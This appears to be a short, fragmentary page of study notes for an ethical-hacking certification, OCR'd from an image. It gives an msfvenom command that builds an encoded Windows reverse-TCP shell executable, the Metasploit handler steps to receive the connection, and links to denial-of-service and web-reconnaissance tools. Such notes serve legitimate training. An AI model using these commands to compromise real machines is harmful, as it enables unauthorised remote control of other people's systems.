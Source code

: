 NOTE: You need a passphrase to encrypt or decrypt a file
             

             
             

Metasploit
====================
           
Windows Reverse tcp
             
           msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=172.16.104.130 LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
           
           Open Metasploit
           search exploit 
           use exploit/multi/handler
           set payload windows/shell/reverse_tcp
           show options
           set LHOST 172.16.104.130
           set LPORT 31337
           exploit
             
             service apache2 start
             cp /root/Desktop/abc.txt /var/www/html/share/
             
           

           
           
           
https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master
        
https://github.com/JohnHammond/ctf-katana#readme
             
DoS
             
             https://gbhackers.com/kali-linux-tutorial-dos-attack/
             
             https://linuxhint.com/hping3/
             
             HOIC in Windows
             
             
Skipfish
             
             Recon on web servers
             
             https://tools.kali.org/web-applications/skipfish#:~:text=Skipfish%20is%20an%20active%20web,non%2Ddisruptive)%20security%20checks.
             
             On windows   HTTP recon | ID Serve
             
             https://tools.kali.org/web-applications/uniscan
             
             
             
             
             
        

             
             
             




    
    


    

 


